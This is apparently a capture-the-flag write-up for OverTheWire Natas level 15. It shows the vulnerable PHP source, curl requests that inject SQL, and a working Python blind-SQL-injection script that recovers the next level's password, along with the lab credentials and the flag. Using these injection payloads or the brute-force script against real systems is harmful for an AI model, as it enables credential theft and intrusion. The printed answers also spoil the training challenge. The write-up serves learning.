 # Level 15
## What does the page look like?
```html
$ curl -s --user natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
## Source code
```html
$ curl -s --user natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/index-source.html | html2text 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
	    if(mysql_num_rows($res) > 0) {
	        echo "This user exists.<br>";
	    } else {
	        echo "This user doesn't exist.<br>";
	    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Vulnerability and Exploitation
### Find a valid username
Providing a username allows to confirm the existence of a user:
~~~~
$ curl -s -d 'username=natas16' -X POST --user natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/?debug | html2text

****** natas15 ******
Executing query: SELECT * from users where username="natas16"
This user exists.
View_sourcecode
~~~~
### Confirm the SQL injection
Now we know that the `natas16` user exists in the table.

The user input field (`username`) is not sanitized by the PHP script, making SQL injections possible:
~~~~
$ curl -s -d 'username=" or "1"="1' -X POST --user natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/?debug | html2text 

****** natas15 ******
Executing query: SELECT * from users where username="" or "1"="1"
This user exists.
View_sourcecode
~~~~
### UNION SELECT injection

`UNION SELECT` seems to have been disabled on the server because it fails:
~~~~
$ curl -s -d 'username=natas16" union select 1,2' -X POST --user natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/?debug | html2text

****** natas15 ******
Executing query: SELECT * from users where username="natas16" union select 1,2"
Error in query.
View_sourcecode
~~~~
### Brute forcing the password
After trying some other techniques and failing, let's try to brute force the password of username `natas16`. *Note: we suppose here that the password is stored unencrypted in the database and will only contain alphanumeric values ([a-zA-Z0-9])*

To do that, we will guess the password for each letter with such queries:
~~~~
SELECT * FROM user WHERE username="natas16" AND password LIKE BINARY "a%"
~~~~
*Notice that we are using `BINARY` to make sure this will be case sensitive*

It will check if the password starts with `a`. If this is the case, the request should return the string `This user exists`. Else, we will get `This user doesn't exist`.

Once we have found the first letter (let's say it's `X`). We will test the second letter using the second position:
~~~~
SELECT * FROM user WHERE username="natas16" AND password LIKE BINARY "Xa%"
~~~~
And so on, until we have the password.

Below is my python code:
```python
#!/usr/bin/env python
import requests

auth_user = 'natas15'
auth_pwd = 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'
target = "http://natas15.natas.labs.overthewire.org/?debug"

password = ''

# We know the password is 32 characters long
for pos in range(33):
	for i in range(48,123):
		# only include a-z, A-Z and 0-9
		if (i>47 and i<58) or (i>64 and i<91) or (i>96):
			sqli = {'username': 'natas16" AND password LIKE BINARY "%s%s%%' % (password, chr(i))}
			r = requests.post(
				target,
				auth=requests.auth.HTTPBasicAuth(auth_user, auth_pwd),
				data = sqli
				)
			if "This user exists" in r.text:
				# Once letter is found, it is added to the password and we jump to the next letter
				password += chr(i)
				print(password)
				break
```
Here is the output:
~~~~
$ python bruteforce.py 
W
Wa
WaI
WaIH
WaIHE
WaIHEa
WaIHEac
WaIHEacj
WaIHEacj6
WaIHEacj63
WaIHEacj63w
WaIHEacj63wn
WaIHEacj63wnN
WaIHEacj63wnNI
WaIHEacj63wnNIB
WaIHEacj63wnNIBR
WaIHEacj63wnNIBRO
WaIHEacj63wnNIBROH
WaIHEacj63wnNIBROHe
WaIHEacj63wnNIBROHeq
WaIHEacj63wnNIBROHeqi
WaIHEacj63wnNIBROHeqi3
WaIHEacj63wnNIBROHeqi3p
WaIHEacj63wnNIBROHeqi3p9
WaIHEacj63wnNIBROHeqi3p9t
WaIHEacj63wnNIBROHeqi3p9t0
WaIHEacj63wnNIBROHeqi3p9t0m
WaIHEacj63wnNIBROHeqi3p9t0m5
WaIHEacj63wnNIBROHeqi3p9t0m5n
WaIHEacj63wnNIBROHeqi3p9t0m5nh
WaIHEacj63wnNIBROHeqi3p9t0m5nhm
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
~~~~

# Flag
~~~~
natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
~~~~
